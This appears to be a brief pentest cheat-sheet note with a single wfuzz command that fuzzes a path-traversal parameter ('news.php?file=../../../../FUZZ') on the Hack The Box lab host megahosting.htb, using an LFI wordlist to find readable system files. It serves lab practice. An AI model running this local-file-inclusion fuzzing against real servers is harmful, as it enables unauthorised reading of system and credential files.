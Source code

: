 # WFuzz

LFI fuzz
----
```
wfuzz -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt --hc 403,404 -u http://megahosting.htb/news.php?file=../../../../FUZZ | grep -v '0 Ch'
```